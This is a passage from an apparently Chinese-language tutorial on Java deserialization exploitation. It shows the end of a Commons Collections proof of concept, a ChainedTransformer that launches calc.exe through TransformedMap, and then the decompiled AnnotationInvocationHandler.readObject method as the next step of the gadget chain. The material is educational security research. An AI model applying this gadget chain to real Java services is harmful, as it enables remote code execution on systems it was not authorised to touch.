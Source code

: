 ```
                        new Object[]`{`"C:\\Windows\\System32\\calc.exe"`}`),
        `}`;

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "test");
    `}`
`}`
```

[![](https://p2.ssl.qhimg.com/t01e6550abd94c401d3.png)](https://p2.ssl.qhimg.com/t01e6550abd94c401d3.png)

[![](https://p2.ssl.qhimg.com/t01bffe9c0d7579efbf.png)](https://p2.ssl.qhimg.com/t01bffe9c0d7579efbf.png)

[![](https://p0.ssl.qhimg.com/t016aa396e256a61238.png)](https://p0.ssl.qhimg.com/t016aa396e256a61238.png)

[![](https://p3.ssl.qhimg.com/t01d09459532417dc9b.png)](https://p3.ssl.qhimg.com/t01d09459532417dc9b.png)

[![](https://p1.ssl.qhimg.com/t01f9a9966cd3be1109.png)](https://p1.ssl.qhimg.com/t01f9a9966cd3be1109.png)



## demo 2

在第一版 POC 中是手工添加了`put`操作，但是在反序列化的操作中我们需要找到一个类，直接或者间接的方式去调用类似于`put`的操作。

`AnnotationInvocationHandler`的`readObject`方法：

```
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException `{`
    var1.defaultReadObject();
    AnnotationType var2 = null;

    try `{`
        var2 = AnnotationType.getInstance(this.type);
    `}` catch (IllegalArgumentException var9) `{`
        throw new InvalidObjectException("Non-annotation type in annotation serial stream");
    `}`

    Map var3 = var2.memberTypes();
    Iterator var4 = this.memberValues.entrySet().iterator();

    while(var4.hasNext()) `{`
        Entry var5 = (Entry)var4.next();
        String var6 = (String)var5.getKey();
        Class var7 = (Class)var3.get(var6);
         if (var7 != null) `{`
            Object var8 = var5.getValue();
            if (!var7.isInstance(var8) &amp;&amp; !(var8 instanceof ExceptionProxy) `{`
               var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
            `}`
        `}`        
    `}`
`}`
```
